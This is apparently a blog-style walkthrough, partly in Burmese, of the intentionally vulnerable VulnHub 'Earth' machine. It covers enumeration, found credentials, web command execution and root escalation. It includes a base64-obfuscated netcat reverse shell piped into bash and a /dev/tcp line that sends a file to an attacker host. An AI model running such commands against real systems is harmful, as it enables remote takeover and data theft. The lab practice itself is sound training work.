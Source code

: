 ```yaml
---
{"tags":["getfullshell","vulnhub","walkthrought"],"dg-publish":true,"Auther":"y3kh","permalink":"/exploit-from-kali/earth-vulnhub/","dgPassFrontmatter":true,"noteIcon":""}
---
```


sudo nmap -sC -sV -oN earth 192.168.90.2                                                                                                                            
Nmap scan report for 192.168.90.2
Host is up (0.0015s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.6 (protocol 2.0)
| ssh-hostkey: 
|   256 5b:2c:3f:dc:8b:76:e9:21:7b:d0:56:24:df:be:e9:a8 (ECDSA)
|_  256 b0:3c:72:3b:72:21:26:ce:3a:84:e8:41:ec:c8:f8:41 (ED25519)
80/tcp  open  http     Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9)
|_http-server-header: Apache/2.4.51 (Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9
|_http-title: Bad Request (400)
443/tcp open  ssl/http Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9)
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-title: Bad Request (400)
| ssl-cert: Subject: commonName=earth.local/stateOrProvinceName=Space
| Subject Alternative Name: DNS:earth.local, DNS:terratest.earth.local
| Not valid before: 2021-10-12T23:26:31
|_Not valid after:  2031-10-10T23:26:31
|_http-server-header: Apache/2.4.51 (Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9
```
sudo nano /etc/hosts
```
##### add this line
192.168.90.2  earth.local  terratest.earth.local
> mozilla > earth.local > sent message > encript code တစ်ခု ကျလာလိမ့်မယ်
>  ဥပမာ : 050c53070e470401097e79
```
gobuster dir -u http://earth.local/ -w /usr/share/wordlists/dirb/common.txt 
```

	  starting gobuster in directory enumeration mode
	/admin                (Status: 301) [Size: 0] [--> /admin/]
	/cgi-bin/             (Status: 403) [Size: 199]
	Progress: 4614 / 4615 (99.98%)
	Finished

earth.local/admin
https://terratest.earth.local/
> try view page source nothing found
```
gobuster dir -u https://terratest.earth.local/ -k -w /usr/share/wordlists/dirb/common.txt
```
*https ဖြစ်လို့ -k သုံးရတယ်*
/index.html           (Status: 200) [Size: 26]
/robots.txt            (Status: 200) [Size: 26]

>mozilla
>https://terratest.earth.local/testingnotes.txt
>https://terratest.earth.local/testdata.txt
>earth.localhost
*cyberchief use*
![earth-cyberchief.png|400](/img/user/Images%20All/earth-cyberchief.png)

user : terra
pass : earthclimatechangebad4humans
*run command*
whoami
ls /var/earth_web
cat /var/earth_web/user_flag.txt
flag : [user_flag_3353b67d6437f07ba7d34afd7d2fc27d] 
reverse shell online base 64 change ပါ
echo 'bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMjAwLjcgNDQ0NAo' | base64 -d  | bash

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
export TERM=xterm-256color
alias ll='ls -lsaht --color=auto'
Ctrl + Z [Background Process]
stty raw -echo ; fg ; reset
stty columns 200 rows 200
```
### privilege Escalation

find / -perm -u=s 2>/dev/null
file /usr/bin/reset_root
nc -lvnp 3333 > reset_root
cat /usr/bin/reset_root > /dev/tcp/192.168.200.7/3333
apt install ltrace
ltrace ./reset_root
touch kHgTFI5G
touch Zw7bV9U5
touch kcM0Wewe
reset_root
su root
password : Earth
flag : root_flag_b0da9554d29db2117b02aa8b66ec492e




<iframe width="1280" height="720" src="https://www.youtube.com/embed/e9de7AK0i2s?si=A1mMNAb9oeidOksa" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>
